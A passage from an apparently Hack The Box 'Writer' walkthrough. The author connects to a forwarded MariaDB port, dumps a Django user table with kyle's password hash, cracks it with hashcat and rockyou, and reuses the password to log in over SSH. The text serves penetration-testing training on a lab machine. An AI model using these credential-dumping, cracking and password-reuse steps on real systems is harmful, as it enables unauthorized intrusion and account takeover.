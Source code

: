 Let's see if these work on the SQL instance we found. First, I used socat to forward all traffic that hits port 6666, to the local mysql port. 6666 listens externally, so we're able to connect to mysql from our attacking machine:
```text
mysql -hwriter.htb -udjangouser --port=6666 -p dev
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 664
Server version: 10.3.29-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [dev]>
```

Looking through the db we find a password hash for kyle we can try to crack:
```text
MariaDB [dev]> select * from auth_user;
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
| id | password                                                                                 | last_login | is_superuser | username | first_name | last_name | email           | is_staff | is_active | date_joined                |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
|  1 | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= | NULL       |            1 | kyle     |            |           | kyle@writer.htb |        1 |         1 | 2021-05-19 12:41:37.168368 |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
1 row in set (0.068 sec)

```

My windows machine has a nice big GPU for fast cracking, so I sent the hash there:
```text
hashcat.exe -m 10000 django_hash .\rockyou.txt

pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio
```

It cracks it and finds the password to be "marcoantonio". Since this was in the DB as kyle's password, and we know kyle is a user with a bash shell on the victim machine, let's try to reuse the password for ssh login:
```text
❯ ssh kyle@writer.htb

Last login: Wed Jul 28 09:03:32 2021 from 10.10.14.19
kyle@writer:~$ whoami
kyle
```


[1]: https://app.hackthebox.com/users/114053
[2]: https://www.hackthebox.eu